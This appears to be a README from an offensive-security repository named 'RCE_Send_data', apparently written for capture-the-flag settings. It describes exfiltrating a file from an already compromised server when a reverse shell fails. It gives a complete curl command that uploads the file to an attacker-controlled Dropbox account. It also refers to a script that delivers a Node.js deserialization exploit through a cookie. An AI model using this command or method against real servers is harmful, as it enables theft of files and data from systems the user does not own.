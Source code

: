 # RCE_Send_data

Let's take the case when you have exploited a vulnerability in a server and trying to obtain a reverse shell but you are not able to obtain it (no netcat or sh not linked to bash or no python, could be any reason).  
In that case you can send the file (which you want to read) to your dropbox account by executing the following curl command.  
(I know there can be a lot of ways to read a file, I'm just suggesting one.) 

`curl -X POST https://content.dropboxapi.com/2/files/upload --header "Authorization: Bearer <ACCESS_TOKEN>" --header "Dropbox-API-Arg: {\"path\": \"/folder1/flag.txt\"}" --header "Content-Type: application/octet-stream" --data-binary @flag.txt`

This will send the file `flag.txt` to specified path `/folder1/flag.txt`.  

#### Prerequisite
you need to have a dropbox account and access_token for that. you can get it by following this [article](http://99rabbits.com/get-dropbox-access-token/)

The file `send_request.py` sends post request with cookie containig data which is getting exploited by node js deserialization [exploit](https://www.exploit-db.com/exploits/49552).
check you commands from file `text.js`.
